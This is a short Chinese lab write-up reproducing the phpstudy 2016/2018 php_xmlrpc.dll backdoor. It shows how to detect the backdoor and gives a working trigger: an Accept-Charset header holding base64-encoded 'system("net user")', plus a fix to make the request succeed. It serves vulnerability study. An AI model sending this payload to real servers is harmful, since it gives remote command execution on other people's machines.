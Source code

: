 # 0x00 软件介绍
phpstudy：流行的php集成部署环境

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：phpstudy 2018

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

后门代码存在于phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45中的\ext\php_xmlrpc.dll模块中，用记事本打开此文件，查找“@eval”，若文件存在“@eval(%s('%s'));”则存在后门，如下图  
![image](./0.png)  
下载并安装phpstudy 2018，按照提示下一步即可

# 0x03 利用条件
无

# 0x04 影响版本
phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

burp抓包，请求头中添加字段：Accept-Charset:ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7  
上述字符串是“echo system("net user");”base64编码后的字符串，结果如下图  
![image](./1.png)  
需要注意，发送的数据包头部中：Accept-Enconding:gzio, deflate有一处问题，deflate与前面的逗号之间有一个空格，需要手动删除，不然无法成功执行命令

# 0x06 踩坑记录
无

# 0x07 参考链接
无
